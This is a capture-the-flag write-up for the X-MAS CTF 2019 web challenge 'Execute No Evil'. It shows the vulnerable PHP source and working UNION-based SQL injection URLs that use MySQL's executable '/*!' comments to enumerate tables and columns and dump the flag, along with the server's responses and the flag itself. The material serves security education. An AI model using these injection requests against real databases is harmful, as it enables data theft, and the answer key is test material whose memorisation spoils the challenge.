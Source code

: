 # X-MAS CTF 2019 – Execute No Evil

* **Category:** web
* **Points:** 50

## Challenge

> (1) New Message: "Hey dude. So we have this database system at work and I just found an SQL injection point. I quickly fixed it by commenting out all the user input in the query. Don't worry, I made the query so that it responds with boss's profile, since he is kind of the only person actively using this database system, and he always looks up his own name, lol. Anyway, guess we'll go with this til' the sysadmin comes and fixes the issue."
>
> Huh, so hear no evil, see no evil, ... execute no evil?
>
> Remote server: http://challs.xmas.htsp.ro:11002
> Author: Milkdrop

## Solution

Analyzing the HTML source coude you can discover an interesting comment.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->


</body>
```

So, connecting to `http://challs.xmas.htsp.ro:11002/?source=1` you can print the PHP source code.

```php
<?php
if (isset ($_GET['source'])) {
    show_source ("index.php");
    die ();
}
?>

<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
    <h2>Cobalt Inc. employee database search</h2>
    <label>Name:</label>
    <input type="text" name="name" autocomplete="off">
    <input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<?php
include ("config.php");
$conn = new mysqli ($servername, $username, $password, $dbname);

if (isset ($_GET['name'])) {
    $name = $_GET['name'];
    $name = str_replace ("*", "", $name);
    $records = mysqli_query ($conn, "SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'", MYSQLI_USE_RESULT); // Don't tell boss

    if ($records === false) {
        die ("<p>Our servers have run into a query error. Please try again later.</p>");
    }

    echo '<table>';
    echo '
    <tr>
        <th>Name</th>
        <th>Description</th>
    </tr>';

    while ($row = mysqli_fetch_array ($records, MYSQLI_ASSOC)) {
        echo '<tr>
            <td>',$row["name"],'</td>
            <td>',$row["description"],'</td>
        </tr>';
    }

    echo '</table>';
}
?>

</body>
```

Even if the `$name` variable is concatenated inside a MySQL comment, the code is still vulnerable to SQL injection, because MySQL can execute query portions inside comments.

From [https://www.owasp.org/index.php/Testing_for_MySQL](https://www.owasp.org/index.php/Testing_for_MySQL):

> Fingerprinting MySQL
> Of course, the first thing to know is if there's MySQL DBMS as a back end database. MySQL server has a feature that is used to let other DBMS ignore a clause in MySQL dialect. When a comment block ('/**/') contains an exclamation mark ('/*! sql here*/') it is interpreted by MySQL, and is considered as a normal comment block by other DBMS as explained in MySQL manual.
> 
> Example:
> 1 /*! and 1=0 */
> 
> Result Expected:
> If MySQL is present, the clause inside the comment block will be interpreted.

The base to perform SQL injection is the following.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION <malicious payload> UNION SELECT 'foo', name, description FROM users WHERE name =
```

First of all you could try to enumerate DB tables.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION SELECT 'foo', table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' UNION SELECT 'foo', name, description FROM users WHERE name =
```

And you will discover that a `flag` table exists.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr><tr>
			<td>ctf</td>
			<td>users</td>
		</tr><tr>
			<td>ctf</td>
			<td>flag</td>
		</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr></table>
</body>
```

Then you can enumerate table columns.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_name = 'flag' UNION SELECT 'foo', name, description FROM users WHERE name =
```

And you can discover that a column called `whatsthis` exists.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr><tr>
			<td>flag</td>
			<td>whatsthis</td>
		</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr></table>
</body>
```

And now you can print the content of the table.

```sql
challs.xmas.htsp.ro:11002/?name=!'Geronimo' UNION SELECT 'foo', 'bar', whatsthis FROM flag UNION SELECT 'foo', name, description FROM users WHERE name =
```

The content of the table will reveal the flag.

```html
<head>
	<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
<br>
<!-- ?source=1 -->

<table>
	<tr>
		<th>Name</th>
		<th>Description</th>
	</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr><tr>
			<td>bar</td>
			<td>X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}</td>
		</tr><tr>
			<td>Geronimo</td>
			<td>People say he owns a Cadillac ...</td>
		</tr></table>
</body>
```

The flag is the following.

```
X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}
```
